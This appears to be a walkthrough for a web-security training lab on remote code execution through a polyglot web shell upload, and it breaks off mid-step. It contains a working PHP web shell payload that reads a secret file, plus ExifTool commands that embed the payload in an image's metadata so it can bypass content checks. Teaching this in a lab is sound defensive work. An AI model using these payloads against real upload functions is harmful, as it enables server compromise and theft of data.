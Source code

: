Similarly, certain file types may always contain a specific sequence of bytes in their header or footer. These can be used like a fingerprint or signature to determine whether the contents match the expected type. For example, JPEG files always begin with the bytes `FF D8 FF`.

This is a much more robust way of validating the file type, but even this isn't foolproof. Using special tools, such as ExifTool, it can be trivial to create a polyglot JPEG file containing malicious code within its metadata.

### 题目

```
Lab: Remote code execution via polyglot web shell upload
PRACTITIONER

This lab contains a vulnerable image upload function. Although it checks the contents of the file to verify that it is a genuine image, it is still possible to upload and execute server-side code.

To solve the lab, upload a basic PHP web shell, then use it to exfiltrate the contents of the file /home/carlos/secret. Submit this secret using the button provided in the lab banner.

You can log in to your own account using the following credentials: wiener:peter
```

### 答案

1. On your system, create a file called `exploit.php` containing a script for fetching the contents of Carlos's secret. For example:

   ```
   <?php echo file_get_contents('/home/carlos/secret'); ?>
   ```

2. Log in and attempt to upload the script as your avatar. Observe that the server successfully blocks you from uploading files that aren't images, even if you try using some of the techniques you've learned in previous labs.

3. Create a polyglot PHP/JPG file that is fundamentally a normal image, but contains your PHP payload in its metadata. A simple way of doing this is to download and run ExifTool from the command line as follows:

   ```
   exiftool -Comment="<?php echo 'START ' . file_get_contents('/home/carlos/secret') . ' END'; ?>" <YOUR-INPUT-IMAGE>.jpg -o polyglot.php
   ```

   This adds your PHP payload to the image's `Comment` field, then saves the image with a `.php` extension.

   或者在Windows上下载一个exe文件

   ```
   ./ExifTool.exe -Comment="<?php echo 'START ' . file_get_contents('/home/carlos/secret') . ' END'; ?>" test.png -o 2.php
   ```

4. In the browser, upload the polyglot image as your avatar, then go back to your account page.

5. In Burp's proxy history, find the `GET /files/avatars/polyglot.php` request. Use the message editor's search feature to find the `START` string somewhere within the binary image data in the response. Between this and the `END` string, you should see Carlos's secret, for example:
